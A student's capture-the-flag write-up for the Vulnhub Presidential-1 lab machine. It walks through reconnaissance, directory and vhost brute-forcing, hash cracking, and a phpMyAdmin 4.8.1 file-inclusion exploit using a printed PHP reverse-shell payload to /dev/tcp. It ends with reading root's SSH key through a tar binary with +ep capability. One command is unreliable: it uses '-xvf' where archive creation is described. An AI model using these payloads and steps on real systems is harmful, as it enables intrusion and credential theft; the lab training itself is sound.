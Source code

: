# Report Cybersecurity : Presidential Hacking
Simone Cossaro IN2000201

## Introduction

This report details the steps taken to solve the Vulnhub CTF (Capture the Flag) challenge known as Presidential-1.
Capture the Flag challenges are a cornerstone in the training and development of cybersecurity professionals. These competitions are designed to simulate real-world scenarios where participants must apply their knowledge and skills to solve security-related problems. 

In the scenario of Presidential-1, the U.S. state is developing a registration website for presidential elections and seeks to test the security of the server before launching the website and registration system. One political party is concerned that the opposing party might commit electoral fraud by hacking into the registration system and falsifying votes.

The objective of the challenge is to gain root access to the server.

The attack was conducted following the walkthrough available [here](https://www.hackingarticles.in/presidential-1-vulnhub-walkthrough/).

## Tools

VirtualBox is required for this challenge to run the following two virtual machines:
* the Presidential VM, available on Vulnhub [here](https://www.vulnhub.com/entry/presidential-1,500/)
* an attacking Kali Linux VM
  
Both virtual machines are connected to the same network with NAT.

## Recognition

The first step of the attack is reconnaissance. The shell command `netdiscover` automates the discovery of live hosts on a network. Executing it helps determine if the presidential machine is connected to the network and identifies its IP address.

Once the IP address of the machine (10.0.2.8) is identified, we proceed to identify the services, open ports, and software versions on it using the `nmap` command.

![Steps of recognition](images/reconnaissance.png)  

The scan reveals that the machine is running a web service on port 80 with HTTP protocol and a remote shell on port 2082 with SSH protocol.

## Enumeration

Visiting the main page of the web service on port 80 and scrolling to the bottom reveals an email address (contact@votenow.local), providing the domain name: votenow.local. The domain name can be associated with the IP address by adding a line to the '/etc/hosts' file.

In this enumeration phase, Gobuster, a tool for scanning directories and files on web servers, is essential. It locates hidden or unadvertised resources on a web server, such as directories or files that may not be listed directly on a web page but are still accessible.

The Gobuster command specifies the file extensions to search for and the dictionary to use for brute force. Brute force in this context refers to systematically sending HTTP requests for each entry in the provided wordlist. Gobuster tries every word in the wordlist, such as potential directories, files, subdomains, etc., until it finds valid resources or exhausts the options.

![Steps of enumeration](images/enumeration.png)  

A 'config.php.bak' file was detected. These files usually contain a backup copy of the original 'config.php' file, which in turn contains important configuration information.

Indeed, the file contains user credentials that may prove useful later.

## Exploiting

Using Gobuster with the vhost option allows the discovery of subdomains. With the dictionary used (/dirbuster/wordlists/directory-list-2.3-medium.txt), a single subdomain was found: datasafe.votenow.local.

The subdomain's web page features an access panel to "phpMyAdmin." By entering the previously obtained credentials, it is possible to log in and access a SQL database containing the hash of an admin user's password.

The hash alone cannot be used, so John the Ripper, a password-cracking tool, is employed. Using the famous rockyou dictionary, the password corresponding to the hash is forced, revealing it to be "Stella."

Browsing the page further, it is noted that the phpMyAdmin version is outdated, listed as 4.8.1 while the latest stable version is 4.9.5.

Searchsploit, a tool for searching known exploits and vulnerabilities, reveals three vulnerabilities for this version, one of which allows command execution. Searchsploit provides detailed information about this vulnerability and how it can be exploited.

To exploit this vulnerability it is necessary to:
1) authenticate
2) obtain the phpMyAdmin cookie
3) execute a SQL query on the web page
4) accurately edit the URL.
   
Authentication was done with the credentials obtained previously.

The phpMyAdmin cookie can be obtained by using the browser inspector and seeing what the value of the cookie named phpMyAdmin is.

After authentication it is possible to execute sql queries on the databases present.

Under normal circumstances, the web application does not interpret or execute code placed within backticks. However, by meticulously crafting the URL and embedding a PHP script within backticks in a SQL query, it becomes possible to execute the script.

The URL must have the following format:

'http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_{cookieValue}'

where {cookieValue} is the current session's cookie value.

By listening with a netcat listener on port 443 and injecting a SQL query like:

`select '<?php system("bash -i >& /dev/tcp/10.0.2.4/443 0>&1");?>'`

and structuring the URL as shown, a reverse shell is obtained on the presidential machine.

![Exploitation of the vulnerability](images/sql_vuln.png)

At this point, authentication can be done using the previously extracted admin user credentials.

![Reverse shell connection and authentication](images/reverse_shell.png)


## Privilege Escalation

The next step is listing the capabilities associated with available executable files using the `getcap` command.  It is noted that the tarS binary has '+EP'. This binary allows the compression of any file on the system without being root. Once compressed, it's possible to read the contents of the file by performing only the decompression.

The '/root/.ssh/' directory contains an 'id_rsa' file, which typically holds an RSA private key for SSH authentication.
By having '+ep', compressing and decompressing the 'id_rsa' file, visibility to its contents is gained.

Compression and decompression are done by the two following commands:

* `tarS -xvf id_rsa.tar /root/.ssh/id_rsa` : creates a tar archive called 'id_rsa.tar' containing the 'id_rsa' file present in the '/root/.ssh/' directory.

* `tar -xvf id_rsa.tar` : extracts the file from the 'id_rsa.tar' archive.

After the execution of these two commands, the 'id_rsa' file can be read.

![Obtaining the RSA private key](images/rsa_key.png)

With the RSA private key, remote connection to the presidential machine as root via SSH protocol is possible.

Once arrived at this point, obtaining the final-flag can be done and it marks the end of the challenge.

![Root access](images/ssh_&_final_flag.png)
